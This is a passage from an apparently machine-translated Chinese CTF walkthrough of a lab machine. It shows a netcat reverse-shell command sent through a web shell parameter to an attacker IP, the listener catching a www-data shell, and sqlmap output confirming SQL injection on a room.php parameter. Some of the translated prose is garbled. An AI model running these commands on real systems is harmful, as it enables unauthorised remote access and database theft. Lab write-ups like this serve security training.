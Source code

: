 现在我可以得到一个外壳更改为：`cmd=id``cmd=nc -e /bin/sh 10.10.14.8 443`

    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.143.
    Ncat: Connection from 10.10.10.143:35900.
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

### 路径2：通过SQLi进行网络外壳

#### sqlmap

看来，铁水部队对.我有时让它工作。但是通过一些调整，我可以让它可靠地工作。我将使用的选项是弄乱用户代理字符串，以及低级别和风险。`sqlmap``--random-agent`

    root@kali# sqlmap -u http://10.10.10.143:80/room.php?cod=1 --random-agent --level 1 --risk 1  --batch
            ___
           __H__
     ___ ___["]_____ ___ ___  {1.3.4#stable}
    |_ -| . [)]     | .'| . |
    |___|_  [.]_|_|_|__,|  _|
          |_|V...       |_|   http://sqlmap.org
    
    [15:03:25] [INFO] fetched random HTTP User-Agent header value 'Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10.5; en-US; rv:1.9.1b4) Gecko/20090423 Firefox/3.5b4 GTB5' from file '/usr/share/sqlmap/txt/user-agents.txt'
    [15:03:25] [INFO] testing connection to the target URL
    [15:03:25] [INFO] checking if the target is protected by some kind of WAF/IPS
    [15:03:25] [INFO] testing if the target URL content is stable
    [15:03:26] [INFO] target URL content is stable
    [15:03:26] [INFO] testing if GET parameter 'cod' is dynamic
    [15:03:26] [INFO] GET parameter 'cod' appears to be dynamic
    [15:03:26] [INFO] heuristic (basic) test shows that GET parameter 'cod' might be injectable
    [15:03:26] [INFO] testing for SQL injection on GET parameter 'cod'
    [15:03:27] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
    [15:03:27] [INFO] GET parameter 'cod' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="of")
    [15:03:28] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
    it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
    for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
    ...[snip]...
    [15:03:40] [INFO] GET parameter 'cod' appears to be 'MySQL >= 5.0.12 AND time-based blind' injectable 
    [15:03:40] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
    [15:03:40] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
    [15:03:40] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
    [15:03:40] [INFO] target URL appears to have 7 columns in query
    [15:03:41] [INFO] GET parameter 'cod' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
    GET parameter 'cod' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
    sqlmap identified the following injection point(s) with a total of 72 HTTP(s) requests:
    ---
    Parameter: cod (GET)
        Type: boolean-based blind
        Title: AND boolean-based blind - WHERE or HAVING clause